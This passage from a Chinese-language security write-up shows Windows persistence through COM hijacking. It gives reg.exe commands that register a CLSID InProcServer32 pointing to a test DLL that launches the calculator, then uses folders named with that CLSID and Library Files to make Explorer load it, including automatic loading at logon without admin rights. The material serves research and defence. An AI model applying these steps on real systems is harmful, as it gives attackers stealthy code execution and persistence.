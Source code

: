 测试dll为执行计算器，可供参考的下载地址：

https://github.com/3gstudent/test/raw/master/calc.dll

#### (1)修改注册表，添加注册表项

bat命令如下：

```
SET KEY=HKEY_CURRENT_USER\Software\Classes\CLSID\{11111111-1111-1111-1111-111111111111}\InProcServer32
REG.EXE ADD %KEY% /VE /T REG_SZ /D "c:\test\calc.dll" /F
REG.EXE ADD %KEY% /V ThreadingModel /T REG_SZ /D Apartment /F
```

#### (2)新建文件夹test.{11111111-1111-1111-1111-111111111111}

#### (3)选中该文件夹即可加载calc.dll

**注：**

只会加载一次，重启进程explorer.exe可以再次触发

### 2、系统开机自动加载的实现方法(用户权限)

#### (1)重命名系统文件夹

将`%appdata%\Microsoft\Windows\Start Menu\Programs\Accessories`重命名为`Accessories.{11111111-1111-1111-1111-111111111111}`

#### (2)新建文件夹

将文件夹test.{11111111-1111-1111-1111-111111111111}保存在以下任一位置：

- %appdata%\Microsoft\Windows\Start Menu\Programs\
- %appdata%\Microsoft\Windows\Start Menu\Programs\的子目录

## 0x03 Library Files的利用方法
---

文件后缀名为library-ms，位于`%appdata%\Microsoft\Windows\Libraries`

官方文档：

https://docs.microsoft.com/en-us/windows/client-management/windows-libraries

Library Files的简单理解：

能够同时显示多个文件夹中的内容

### 1、实际测试：

#### (1)修改注册表，添加注册表项

bat命令如下：

```
SET KEY=HKEY_CURRENT_USER\Software\Classes\CLSID\{11111111-1111-1111-1111-111111111111}\
REG.EXE ADD %KEY%InProcServer32 /VE /T REG_SZ /D "c:\test\calc.dll" /F
REG.EXE ADD %KEY%InProcServer32 /V ThreadingModel /T REG_SZ /D Apartment /F
REG.EXE ADD %KEY%ShellFolder /V Attributes /T REG_DWORD /D 4035969341 /F
```
